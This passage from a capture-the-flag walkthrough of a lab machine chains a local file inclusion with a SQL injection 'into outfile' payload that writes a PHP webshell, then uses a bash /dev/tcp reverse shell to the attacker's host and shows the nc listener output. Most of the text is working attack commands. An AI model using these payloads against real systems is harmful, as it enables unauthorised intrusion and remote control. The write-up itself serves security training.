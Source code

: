 I'll now load that using the LFI identified [above](#analysis) with
`http://10.10.11.229/shop/index.php?page=/dev/shm/0xdf`:


[![](/img/image-20240110110422182.png)](/img/image-20240110110422182.png)


[*Click for full ![image*](/img/image-20240110110422182.png)



That's executing my PHP to show the info. That's code execution.

It's worth nothing that while this works in `/dev/shm`, it won't work in
`/tmp`, because Apache's using a sandboxed `tmp` directory,
`SYSTEMD_PRIVATE`. .

#### Webshell / Shell

To get a webshell, I'll change the injection to write a webshell:



    id=%0A100'+union+select+"<?php+system($_REQUEST['cmd']);+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/shell.php";--+-1



Now to execute it I'll just visit it with `cmd=id`:

![](/img/image-20240110111010789.png)

To turn that into a shell, I'll start `nc` and update the `cmd` to a
[bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):



    cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'



It is important to encode the `&` to `%26` so that it's not treated as
the end of the parameter and start of another.

At `nc`, I get a shell:



    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.229 49150
    bash: cannot set terminal process group (1155): Inappropriate ioctl for device
    bash: no job control in this shell
    rektsu@zipping:/var/www.md/shop$ 



I'll upgrade using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    rektsu@zipping:/var/www.md/shop$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    rektsu@zipping:/var/www.md/shop$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    rektsu@zipping:/var/www.md/shop$
